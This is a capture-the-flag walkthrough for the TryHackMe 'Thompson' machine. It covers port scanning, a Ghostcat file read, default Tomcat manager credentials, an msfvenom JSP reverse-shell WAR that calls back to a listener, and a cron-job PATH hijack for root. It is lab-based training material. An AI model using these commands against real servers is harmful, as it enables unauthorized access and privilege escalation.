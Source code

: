 ```yaml
---

title: Walkthrough - Thompson
published: true
---
```


Security, Apache Tomcat. Boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
```

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.48.147
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1472673232000"
Last-Modified: Wed, 31 Aug 2016 19:53:52 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

- `gobuster dir -u http://10.10.48.147:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error -x txt,php,html`

checking out `/manager/` we get a login screen, trying creds there doesnt work but clicking cancel give us a hint. 
- `<user username="tomcat" password="s3cret" roles="manager-gui"/>` we can use these to login.

Now that we have access we can upload a java .war shell and setup a `pwncat` listener to recieve it

- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.127.225 LPORT=6969 -f war -o shell.war`
- `pwncat-cs -lp 6969`

![0xskar](/assets/thompson01.png)

* * * 

## What is the user flag?

![0xskar](/assets/thompson02.png)

* * * 

## What is the root flag?

- root is running a cronjob `*  *    * * *   root    cd /home/jack && bash id.sh`

- `id.sh`

```
#!/bin/bash
id > test.txt
```

this script is just running id but it isnt using the intire path to id so if we create another script called id we can open up a root shell

![0xskar](/assets/thompson03.png)

* * * 


